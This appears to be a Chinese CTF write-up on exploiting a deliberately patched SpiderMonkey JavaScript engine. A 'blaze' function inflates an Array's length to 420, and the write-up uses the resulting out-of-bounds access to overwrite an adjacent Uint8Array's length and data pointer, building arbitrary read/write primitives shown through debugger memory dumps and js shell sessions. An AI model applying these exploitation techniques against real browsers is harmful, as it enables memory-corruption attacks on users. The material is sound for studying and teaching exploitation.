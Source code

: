 

## 利用

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E"></a>漏洞

patch中给Array增加了一个函数blaze，此函数把Array的长度设成420。这样“造”出来一个越界访问漏洞。

利用思路是在Array后面放置Uint8Array，通过越界访问Uint8Array来做泄露（读element）和任意地址读写（读写数据指针和数据长度）。下面是Uint8Array的内存布局：

```
0:001&gt; dqs 00000246ABA01B60   # u8a = new Uint8Array(16)
00000246`aba01b60  00000246`abb7ae50 # group
00000246`aba01b68  00000246`abbb3038 # shape
00000246`aba01b70  00000000`00000000 # slot
00000246`aba01b78  00007ff7`10eedac0 js!emptyElementsHeader+0x10
00000246`aba01b80  fffa0000`00000000 # BUFFER_SLOT
00000246`aba01b88  fff88000`00000010 # 长度 LENGTH_SLOT
00000246`aba01b90  fff88000`00000000 # BYTEOFFSET_SLOT
00000246`aba01b98  00000246`aba01ba0 #数据指针 DATA_SLOT
00000246`aba01ba0  00000000`00000000 #数据 Inline data
00000246`aba01ba8  00000000`00000000
00000246`aba01bb0  2f2f2f2f`2f2f2f2f
```

[![](./img/198939/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0142075f65d4bde964.png)

### <a class="reference-link" name="%E6%9E%84%E5%BB%BA%E8%AF%BB%E5%86%99%E5%8E%9F%E8%AF%AD"></a>构建读写原语

这里来测试一下，

```
js&gt; a=new Array(1,2,3,4)
[1, 2, 3, 4]
js&gt; b=new Uint8Array(8)
({0:0, 1:0, 2:0, 3:0, 4:0, 5:0, 6:0, 7:0})
js&gt; objectAddress(a)
"0000023E69201B00"
js&gt; objectAddress(b)
"0000023E69201B60"
js&gt; a.blaze()==undefined // 触发漏洞
false
js&gt; a.length
420
```

可以看出a和b在内存中是相邻的，

[![](./img/198939/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010528ffd49ef44bd4.png)

算出合适的偏移就能通过a修改b的length和ptr

```
js&gt; a[11]=16  // offset 11 修改长度
16
js&gt; b.length
16
js&gt; load('int64.js')
js&gt; load('utils.js')
js&gt; a[13]=new Int64('0x23e69201b30').asDouble() // offset 13 修改指针
1.2188969734197e-311
js&gt; b[0]
1

js&gt; obj_to_leak={a:1}
({a:1})
```